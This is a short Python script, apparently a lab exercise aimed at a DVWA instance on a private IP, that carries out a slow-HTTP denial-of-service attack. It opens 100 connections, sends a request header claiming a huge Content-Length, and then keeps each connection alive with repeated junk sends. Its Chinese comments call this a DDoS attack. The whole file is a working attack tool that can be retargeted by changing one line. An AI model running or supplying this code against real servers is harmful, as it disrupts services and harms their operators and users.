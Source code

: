 import socket
import time
import threading

MAX_CONN = 100  # 设置连接的数量
PORT = 80  # 设置端口号 
HOST = "10.16.53.180"  # 设置IP地址
PAGE = "/DVWA"

buf = ("GET %s HTTP/1.1\r\n"
       "Host: %s\r\n"
       "User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0\r\n"
       "Content-Length: 1000000000\r\n"
       "\r\n" % (PAGE, HOST))  # HTTP请求

socks = []

def conn_thread():
    global socks
    for i in range(0, MAX_CONN):
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        try:
            s.connect((HOST, PORT))
            s.send(bytes(buf, encoding='utf-8'))  # 发送HTTP请求
            print("[+] Send buf OK!,conn=%d" % i)
            socks.append(s)
        except Exception as ex:
            print("[-] Could not connect to server or send error:%s" % ex)
            time.sleep(2)

def send_thread():
    global socks
    for i in range(10):
        for s in socks:
            try:
                s.send(bytes("ddos", encoding='utf-8'))  # ddos攻击
                print("[+] send OK!")
            except Exception as ex:
                print("[-] send Exception:%s" % ex)
                socks.remove(s)
                s.close()
        time.sleep(1)

conn_th = threading.Thread(target=conn_thread, args=())
send_th = threading.Thread(target=send_thread, args=())
conn_th.start()
send_th.start()
